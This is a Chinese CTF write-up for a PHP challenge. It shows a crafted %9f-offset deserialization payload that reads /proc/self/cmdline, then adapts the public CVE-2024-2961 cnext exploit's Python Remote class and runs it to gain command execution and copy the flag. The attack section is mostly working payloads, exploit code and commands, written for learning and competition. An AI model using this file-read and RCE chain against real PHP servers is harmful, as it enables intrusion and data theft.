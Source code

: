 利用以上第三点，我们可以构造 payload 使得 substrstr 提取到中括号左侧的字符串，刚好 `$read` 是拼接到中括号前面（左侧），那么就不需要在 payload 中加中括号了，利用 `9f` 把截取结果偏移到 payload 上就好了

⚠️ 这个 bug 在 PHP 8.3 修了，本地测试时注意要用旧版本

需要向左偏移几个字节长度，就在前面加几个 `9f` 字节，还要多偏移一个字节代替 `[` ，同时要保证中括号内的字符串长度和左侧的 payload 长度一致

验证一下读取 /proc/self/cmdline

```text
/?start=gxngxngxnaaaaaa&read=%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO%3a9%3a"read_file"%3a2%3a{s%3a5%3a"start"%3bs%3a9%3a"gxngxngxn"%3bs%3a8%3a"filename"%3bs%3a18%3a"/proc/self/cmdline"%3b}
```

尝试了一下发现 flag 不是常规位置，还需要进一步利用

CVE-2024-2961 可以将 PHP 的任意文件读取漏洞升级为命令执行，有[现成的 exp](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py)，修改一下 Remote 的方法即可

```python
class Remote:
    ...
    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        payload = f'O:9:"read_file":2:{{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:{len(path)}:"{path}";}}'
        return self.session.get(
            self.url,
            params=urllib.parse.urlencode(
                {
                    "start": f"{'a'*(len(payload)-74)}",
                    "read": f"{'%9f'*(len(payload) + 1)}{payload}",
                },
                safe="%",
            ),
            # proxies={
            #     "http": "http://localhost:8080",
            #     "https": "http://localhost:8080",
            # },
        )

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        data = response.re.search(b"What you are reading is:(.*)", flags=re.S).group(1)
        return base64.decode(data)
```

```text
./cnext-exploit.py http://2f8a3833-8e81-4d3d-a99d-1d9c0d1cf7ad.challenge.ctf.show/ 'cat /must_rCE_F1nd_This_flag > /var/www/html/flag.txt'
```


### <span class="org-todo todo TODO">TODO</span> NewerFileDetector {#newerfiledetector}

> Magika 是谷歌推出的一款新型 AI 文件类型检测工具，据说 Magika 的准确率和召回率达到 99% 以上。看 来开发再也不需要担心文件上传漏洞了。


## 未完持续... {#未完持续-dot-dot-dot}

